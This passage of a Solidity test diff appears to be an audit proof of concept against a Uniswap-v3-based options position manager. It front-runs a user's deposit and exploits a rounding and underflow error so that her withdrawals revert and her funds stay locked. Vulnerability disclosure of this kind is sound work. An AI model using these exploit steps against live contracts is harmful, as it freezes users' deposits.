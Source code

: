 ```diff
+        // the above burn will make the netLiquidity == alice deposit size. if we are to burn the netLiquidity amount now to make it 0, it will cause a revert due to sum being 2**128. hence increase the amount
+        sfpm.mintTokenizedPosition(shortTokenId, 2 * posSize, type(int24).min, type(int24).max);
+
+        // the following pattern is used to burn as directly attempting to burn 3 * posSize would revert due to roudning down performed at the time of minting
+        sfpm.burnTokenizedPosition(shortTokenId, posSize, type(int24).min, type(int24).max);
+        sfpm.burnTokenizedPosition(shortTokenId, 2 * posSize, type(int24).min, type(int24).max);
+
+        uint256 acc =
+            sfpm.getAccountLiquidity(address(pool), address(this), 0, strike - tickSpacing, strike + tickSpacing);
+        assert(acc.rightSlot() == 0);
+        assert(acc.leftSlot() == 2 ** 128 - aliceToGetLiquidity);
+
+        // front-run Alice's deposit
+        sfpm.safeTransferFrom(address(this), Alice, shortTokenId, 0, "");
+        uint256 aliceDepositTokenId = uint256(0).addUniv3pool(poolId).addLeg(0, 1, isWETH, 0, 0, 0, strike, width);
+        vm.prank(Alice);
+        sfpm.mintTokenizedPosition(aliceDepositTokenId, posSize, type(int24).min, type(int24).max);
+
+        // all attempt to withdraw funds by Alice will revert due to division by 0 in premia calculation
+        vm.prank(Alice);
+        vm.expectRevert();
+        sfpm.burnTokenizedPosition(aliceDepositTokenId, posSize, type(int24).min, type(int24).max);
+
+        vm.prank(Alice);
+        vm.expectRevert();
+        sfpm.burnTokenizedPosition(aliceDepositTokenId, posSize / 2 + 1, type(int24).min, type(int24).max);
+    }
+
+    function testHash_DepositAmountLockDueToUnderflowCastingError() public {
+        _initWorld(0);
+        sfpm.initializeAMMPool(token0, token1, fee);
+
+        int24 strike = (currentTick / tickSpacing * tickSpacing) + 3 * tickSpacing;
+        int24 width = 2;
+
+        uint256 shortTokenId = uint256(0).addUniv3pool(poolId).addLeg(0, 1, isWETH, 0, 0, 0, strike, width);
+        uint256 longTokenId = uint256(0).addUniv3pool(poolId).addLeg(0, 1, isWETH, 1, 0, 0, strike, width);
+
+        // low posSize to have the underflowed amount close to max and to round down in uniswap when withdrawing liquidity which will allow us to have netLiquidity of 0
+        uint128 posSize = 1000;
+        vm.stopPrank();
+        deal(token0, address(this), type(uint128).max);
+        deal(token1, address(this), type(uint128).max);
+
+        IERC20Partial(token0).approve(address(sfpm), type(uint256).max);
+        IERC20Partial(token1).approve(address(sfpm), type(uint256).max);
+
+        // mint short and convert it to removed amount by minting a corresponding long
+        sfpm.mintTokenizedPosition(shortTokenId, posSize, type(int24).min, type(int24).max);
+        sfpm.mintTokenizedPosition(longTokenId, posSize, type(int24).min, type(int24).max);
+
```